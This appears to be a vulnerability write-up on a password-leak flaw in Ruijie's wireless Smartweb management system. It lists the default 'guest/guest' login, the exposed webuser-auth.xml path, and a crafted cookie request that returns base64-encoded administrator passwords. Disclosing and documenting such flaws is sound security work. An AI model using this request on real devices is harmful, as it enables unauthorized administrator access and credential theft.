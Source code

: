 # Ruijie Smartweb management system Password information leakage vulnerability

## Vulnerability Description

Ruijie Network Co., Ltd.'s wireless smartweb management system has logical flaws and vulnerabilities. The attacker can obtain the administrator account and password from the vulnerability, so as to log in with administrator privileges.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Rujie Network Co., Ltd. Wireless smartweb management system</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-15.png)



The guest account exists by default, and the account password is `guest/guest`



During the login process, I searched for admin's data and found that a file `/web/xml/webuser-auth.xml` was requested, and the response contained the base64 encryption of the admin password.



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-16.png)



By decrypting, you can get the admin administrator's password and try to request it directly.



```plain
https://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-17.png)



Get all accounts' level marks and base64 encrypted account passwords directly